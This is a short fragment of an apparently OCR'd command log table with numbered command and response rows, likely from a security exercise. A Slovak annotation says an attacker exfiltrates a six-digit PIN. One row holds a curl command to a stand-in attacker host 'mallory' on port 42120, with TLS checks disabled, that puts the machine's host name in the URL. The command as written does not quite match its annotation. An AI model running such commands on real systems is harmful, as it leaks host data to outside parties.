 | 111925                | Command    | curl -k -s https://mallory:42120/pincode/\`hostname -f\` > /tmp/secret<br>(útočník exfiltruje /tmp/secret s obsahom nejakého 6-miestneho pin kódu na svoj https web server mallory na porte 42120)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 111926                | Response   |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|                       |            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 111951                | Command    | ls -alh /tmp                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |